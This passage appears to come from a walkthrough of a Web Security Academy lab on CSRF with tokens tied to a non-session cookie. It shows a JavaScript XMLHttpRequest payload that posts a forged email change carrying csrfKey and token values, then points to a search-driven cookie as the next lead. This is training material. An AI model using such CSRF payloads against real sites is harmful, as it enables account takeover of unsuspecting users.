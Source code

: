 ```
<script>

var xhr = new XMLHttpRequest();
var url = "https://0a7900c3035d83b782ebb0de009400e0.web-security-academy.net";
xhr.open('POST', url+'/my-account/change-email', true);

xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.setRequestHeader('Cookie', 'TESTING');
xhr.setRequestHeader('Cookie', 'csrfKey=Eb67I1HyfMZGN1o9KZWih0EwODxdozMg');

xhr.onload = function () {
    // do something to response
    console.log(this.responseText);
};
xhr.send('email=test12&#64;test&#46;com&csrf=V99KDCadmiyH6AJ1jjXnlHyZxdfQtEkl');

</script>
```

But this does not work either.


Checking the application again, we find the search function adds a value in the Cookie HTTP header:



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/3.png)


It is added as LastSearchTerm:



![img](images/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie/4.png)

